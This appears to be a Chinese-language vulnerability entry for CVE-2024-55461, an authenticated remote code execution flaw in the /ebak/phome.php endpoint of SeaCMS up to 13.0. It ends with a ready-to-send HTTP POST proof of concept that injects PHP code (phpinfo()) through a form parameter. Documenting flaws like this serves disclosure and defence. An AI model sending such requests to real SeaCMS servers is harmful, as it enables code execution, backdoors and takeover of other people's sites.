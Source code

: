 # CVE-2024-55461

>   海洋CMS是为解决站长核心需求而设计的内容管理系统，一套程序自适应电脑、手机、平板、APP多个终端入口，无任何加密代码、安全有保障，是您最佳的建站工具。

## 来源

[https://gitee.com/FengFu01/sea/issues/IB8S1N](https://gitee.com/FengFu01/sea/issues/IB8S1N)

## 简介

海洋CMS的/ebak/phome.php接口处存在远程代码执行漏洞，经过身份验证的远程攻击者可利用该漏洞执行任意代码写入后门文件，进而控制整个web服务器。

## 漏洞类型

远程代码执行

## 影响范围

-   海洋CMS <= 13.0

## POC

```http
POST /z5fskt/ebak/phome.php?phome=RepPathFiletext HTTP/1.1
Host: {{Hostname}}
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: {{Cookie}}
Connection: close

mypath=test&oldword=sea_co_cls&newword=phpinfo()&dozz=1
```

